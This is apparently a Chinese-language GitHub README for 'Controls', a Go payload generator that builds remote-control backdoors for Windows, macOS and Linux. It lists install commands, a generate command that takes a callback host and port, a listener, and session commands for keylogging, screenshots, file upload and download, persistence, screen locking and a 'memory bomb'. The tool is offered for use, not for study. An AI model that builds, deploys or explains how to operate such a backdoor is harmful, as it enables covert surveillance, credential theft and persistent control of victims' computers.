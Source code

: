 <p align="center">
  <img src="https://github.com/1os4r/Controls/blob/master/content/logo.png">
</p>

<h1 align="center">Controls Payload Generator</h1>
<p align="center">
  <a href="https://golang.org/">
    <img src="https://img.shields.io/badge/Golang-1.11-blue.svg">
  </a>
  <a href="https://github.com/1os4r/Controls/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/1os4r/Controls/blob/master/main.go">
    <img src="https://img.shields.io/badge/Release-3.0-red.svg">
  </a>
</p>

<p align="center">
  Controls用来生成控制远程操作系统的Poc。
</p>

## 如何安装
```bash
$ go get github.com/1os4r/Controls
$ go get github.com/kbinani/screenshot
$ go get github.com/lxn/win
$ go get github.com/matishsiao/goInfo
$ go get golang.org/x/sys/windows
$ cd ~/go/src/github.com/HexChristmas/Christmas
$ go run main.go
```

## 如何使用

命令    | 参数及介绍
:-----      |:-----
`generate`  |生成控制程序 (```e.g```. `generate lhost=192.168.0.100 lport=8080 fname=chaos --windows`)
`lhost=`    |指定目标ip
`lport=`    |指定目标端口
`fname=`    |指定输出文件名称
`--windows` |目标系统为``` Windows```
`--macos`   |猎目标系统为 ```Mac OS```
`--linux`   |目标系统为 ```Linux```
`listen`    |从本地的一个端口监听 (```e.g```. `listen lport=8080`)
`serve`     |服务文件
`exit`      |退出

命令    | 参数及介绍
:-----                  |:-----
`download`              |下载文件
`upload`                |上传文件
`screenshot`            |截屏
`keylogger_start`       |键盘记录
`keylogger_show`        |输出键盘记录内容
`persistence_enable`    |维持后门
`persistence_disable`   |移除后门
`getos`                 |获取系统名称
`lockscreen`            |锁定目标屏幕
`openurl`               |打开指定```URL```
`bomb`                  |内存炸弹
`clear`                 |清屏
`back`                  |挂起会话
`exit`                  |关闭会话
